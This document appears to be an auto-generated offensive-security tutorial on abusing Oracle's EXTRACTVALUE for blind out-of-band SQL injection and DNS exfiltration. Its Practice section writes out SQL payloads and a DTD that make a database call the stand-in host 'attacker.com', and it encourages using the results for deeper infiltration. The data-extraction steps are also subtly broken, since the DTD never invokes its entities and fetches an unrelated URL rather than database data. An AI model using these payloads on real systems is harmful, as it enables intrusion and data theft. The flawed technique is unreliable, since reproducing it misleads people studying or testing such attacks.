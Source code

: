 ```yaml
---
title: 'EXTRACTVALUE: Key in Oracle SQL Injection'
description: Learn how to exploit EXTRACTVALUE for DNS exfiltration in Oracle SQL
  injections, enabling blind out-of-band data manipulation.
keywords:
- EXTRACTVALUE
- Oracle SQL Injection
- DNS exfiltration
- blind SQL injection
- out-of-band attack
- XML manipulation
- cybersecurity
- data extraction
---
```


# EXTRACTVALUE

## Context

In the realm of offensive cybersecurity, SQL injection techniques are crucial for exploiting vulnerabilities in database-driven applications. The `EXTRACTVALUE` function plays a significant role in blind out-of-band SQL Injection attacks, specifically within Oracle databases. This technique allows attackers to exfiltrate data by generating DNS requests through XML operations. Understanding and utilizing `EXTRACTVALUE` effectively can provide invaluable insights and access to potentially sensitive information.

## Theory

### Core Idea

`EXTRACTVALUE` is an Oracle SQL function employed to extract data from XML documents using XPath expressions. When leveraged in a blind out-of-band SQL injection context, `EXTRACTVALUE` can be manipulated to trigger DNS requests, facilitating data exfiltration without returning data directly to the application's response.

The typical workflow for DNS exfiltration using `EXTRACTVALUE` involves embedding an XML external entity (XXE) in a document type definition (DTD), which is then processed by the Oracle database. When the database processes this DTD, it makes DNS requests to an attacker's server, allowing data to be exfiltrated indirectly.

### EXTRACTVALUE Mindmap

```mermaid
graph TD
    A[EXTRACTVALUE] --> B[Purpose: DNS Exfiltration from Oracle Database]
    A --> C[Method: Use of XML and XPath Query]
    A --> D[Application: Blind SQL Injection]
    A --> E[Vulnerability: Out-of-band Channel Manipulation]
```

## Practice

The `EXTRACTVALUE` function can be exploited for DNS exfiltration and subsequent data extraction. Here are the practical steps to use this technique effectively:

### DNS Exfiltration using EXTRACTVALUE

1. **Identify Vulnerable Input**
   Begin by identifying an input field in an application that is susceptible to SQL injection and can process XML data. This vulnerability will allow you to manipulate the `EXTRACTVALUE` function.

2. **Command Execution**

   Use the following command to generate a DNS request:

   ```sql
   SELECT EXTRACTVALUE(xmltype('<!DOCTYPE root [<!ENTITY % ext SYSTEM "http://attacker.com/payload.dtd"> %ext;]>'),'/') FROM dual;
   ```

   This command triggers the Oracle database to process an external entity reference, causing a DNS request to be made to the attacker-controlled domain, `attacker.com`.

3. **DNS Server Logs**

   Check the logs on your DNS server to capture any incoming requests. These logs can reveal valuable information about the database and the vulnerable application.

### Data Extraction with EXTRACTVALUE

1. **Create DTD File on Attacker's Server**

   Host a DTD file on your server, which includes instructions for the Oracle database to retrieve specific data. The DTD file might look like:

   ```xml
   <!ENTITY % data SYSTEM "http://victim.com/data.xml">
   <!ENTITY % all "<!ENTITY send SYSTEM 'http://attacker.com/?%data;'>">
   ```

   This setup allows the attacker to capture data from `victim.com` through a DNS query to `attacker.com`.

2. **Reference the DTD in EXTRACTVALUE**

   Execute a SQL query that references this external DTD file:

   ```sql
   SELECT EXTRACTVALUE(xmltype('<!DOCTYPE data SYSTEM "http://attacker.com/payload.dtd">'),'/') FROM dual;
   ```

   By processing this query, the database will reference the attacker’s DTD for external data navigation, completing the exfiltration.

### Tools and Result Usage

- **Tools**
  - SQL*Plus for executing the SQL commands
  - Burp Suite to identify and exploit vulnerabilities
  - Responder for analyzing incoming DNS requests

- **Result Usage**
  - Logging DNS queries for reconnaissance purposes
  - Utilizing extracted information for deeper infiltration or subsequent attacks

By mastering these techniques, offensive security professionals can effectively exploit vulnerabilities in Oracle databases and leverage `EXTRACTVALUE` for strategic data exfiltration through blind out-of-band SQL Injection.